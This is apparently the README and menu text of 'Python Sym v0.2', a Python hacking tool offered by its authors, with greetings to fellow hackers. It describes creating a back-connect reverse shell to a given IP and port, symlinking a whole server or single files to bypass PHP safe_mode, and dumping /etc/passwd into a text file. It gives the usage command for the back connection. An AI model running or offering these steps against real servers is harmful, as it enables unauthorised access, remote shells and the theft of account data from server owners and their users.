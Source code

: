 # Python-Sym-v0.2
Python Sym v0.2
Symlink & BackConnect

------------------------------------------------------------------------------------------------
0 - quit program
    1- BackConnect (create a back connect file)
    2- create Symlink to whole server
    3- create Symlink to a file

    PS : * if you used choices 2 or 3 we will bypass safe_mode in server
         * a passwd.txt file will created cointain /etc/passwd file
         * you will find files in "sym"

    if you are using this Script from the web, you can BackConnect by typing
    python SymConnect.py [ip] [port]
    example: python SymConnect 192.168.0.0 77
    
------------------------------------------------------------------------------------------------


[+]Read /etc/passwd >> passwd.txt
GreeTz : HsN,Hiso,Fat7,vir,Marco,oudouz,D3v.
All Rights Reserved @ Mid-Set
C0ntact : http://fb.com/midset00

